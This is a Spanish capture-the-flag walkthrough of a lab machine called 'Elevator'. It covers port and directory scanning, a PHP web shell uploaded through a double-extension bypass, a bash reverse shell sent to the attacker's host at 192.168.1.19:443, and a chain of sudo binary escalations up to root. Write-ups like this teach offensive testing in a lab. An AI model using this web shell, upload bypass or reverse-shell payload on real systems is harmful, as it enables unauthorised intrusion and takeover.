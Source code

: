 # Máquina Elevator

![image](https://github.com/user-attachments/assets/affb22f8-7a17-4fed-8ef6-357c44d6fa80)

## Verificación de Conectividad

Primero, verificamos la conectividad con la máquina utilizando **ping**:

![Ping a la máquina objetivo](https://github.com/user-attachments/assets/ccf1913f-1090-4440-b19c-99c02fa464ea)

## Reconocimiento de Puertos con NMAP

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**:
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![image](https://github.com/user-attachments/assets/71cb52df-a563-4f30-b629-338de6f946b0)

Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Parece ser una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.

![image](https://github.com/user-attachments/assets/5a24029b-c718-4aef-bab5-07fef1ef97aa)
![image](https://github.com/user-attachments/assets/301493da-5523-4f1d-b624-edffdd161fc0)

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```

![image](https://github.com/user-attachments/assets/848edb40-b853-488c-815a-723877351ebd)

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```

![image](https://github.com/user-attachments/assets/1009cbe7-526c-4e7c-a697-c7425620a0e8)

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.

![image](https://github.com/user-attachments/assets/3be38251-eb36-4699-893f-29828ac0bb3d)

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.

![image](https://github.com/user-attachments/assets/cf5347b1-1321-4ed2-9cb3-c3a0d15fe563)

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```php
<?php``
    system($_GET['cmd'])
?>
```

![image](https://github.com/user-attachments/assets/57d54f62-7969-4ec9-a289-9e174bace3c1)``

Procedemos a subir el fichero a la web.

![image](https://github.com/user-attachments/assets/07a53adf-c045-479f-b990-8d25c1feaf38)

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.

![image](https://github.com/user-attachments/assets/efa7fbce-9d34-4d45-805c-bf736f166876)

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.

![image](https://github.com/user-attachments/assets/f455ca75-1e51-4e66-84d9-d5fb934da5da)

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.

![image](https://github.com/user-attachments/assets/bbe9063c-8a45-4eea-9acf-80dc2e27bfe2)

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.

![image](https://github.com/user-attachments/assets/2221b44c-ae07-442d-a5af-62120f4f741d)

La web interpreta correctamente el archivo malicioso subido por nosotros.

![image](https://github.com/user-attachments/assets/46ae684c-4649-40b1-a442-b88936f312f6)


Al ejecutar el comando `id`, verificamos la respuesta del comando.

![image](https://github.com/user-attachments/assets/11ca7995-ad4f-42fc-89ce-146fdcb28464)

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`

![image](https://github.com/user-attachments/assets/5f53a80a-2959-4c82-85b3-b8968da9222d)

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/c7b2bfde-9d5f-438a-8a1b-ff17d1c0eda6)

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. 

![image](https://github.com/user-attachments/assets/5649a008-e84e-479d-b29a-b1461df881b0)

Vamos a verificar los permisos SUID para determinar si es posible elevar privilegios a través de este método. Sin embargo, lamentablemente no podremos aprovechar esta vía.

![image](https://github.com/user-attachments/assets/af283685-a5ed-47ce-a493-be56dcc09527)

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.

![image](https://github.com/user-attachments/assets/67836fc2-27fc-41ce-b39a-91fd61e2365f)

![image](https://github.com/user-attachments/assets/bfe361cb-be55-47f8-a52a-32f94666d19a)


Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.

![image](https://github.com/user-attachments/assets/867899f6-d535-4786-ab47-6233e3215063)

En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**

![image](https://github.com/user-attachments/assets/eaa5afdc-5d69-43ec-a33d-1172ecb8360c)

![image](https://github.com/user-attachments/assets/3f7edfb7-9e27-45c5-9f83-775e4e412702)

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.

![image](https://github.com/user-attachments/assets/e61ea684-7c5c-412c-b1b0-74527e308a31)

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).

![image](https://github.com/user-attachments/assets/97e3dc67-8d1e-4751-ac52-5fd09d0e5d6c)

![image](https://github.com/user-attachments/assets/86c4abcf-e0ef-498e-bb60-2caf8f917e79)

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.

![image](https://github.com/user-attachments/assets/fed2f6dc-109c-4696-b67d-9c44c968db5a)

![image](https://github.com/user-attachments/assets/2338ad11-cabf-48d2-a940-cc59dc764925)

Ganamos acceso al usuario shaggy.

![image](https://github.com/user-attachments/assets/694c563b-20fa-402f-9e29-4f4102a2f32b)

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.

![image](https://github.com/user-attachments/assets/c6ba585c-5438-4139-8c4d-8c2fb04727e2)

![image](https://github.com/user-attachments/assets/775abda8-d31e-4632-97b4-4f0221524ce3)

Ahora logramos migrar al usuario **fred**.

![image](https://github.com/user-attachments/assets/b1ebe188-a860-4b66-a728-ceef6b5e84f4)

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.

![image](https://github.com/user-attachments/assets/38523977-bfc3-4bf6-bdd8-fb7927a6e0db)

![image](https://github.com/user-attachments/assets/c45a7d93-1344-4aec-849a-7b5e395c48cc)

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.

![image](https://github.com/user-attachments/assets/47b5e7d3-9ef7-4906-95ed-2f59ec0a8a52)

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.

![image](https://github.com/user-attachments/assets/174b93d3-6efb-4009-b5d9-66c7e1dc1372)

![image](https://github.com/user-attachments/assets/1ed27c1e-8aa8-493d-98a3-14880958df35)

# $BLING $BLING SOMOS ~~ROOT~~

![image](https://github.com/user-attachments/assets/027d9ae5-281f-47f4-a943-110c6c318a79)
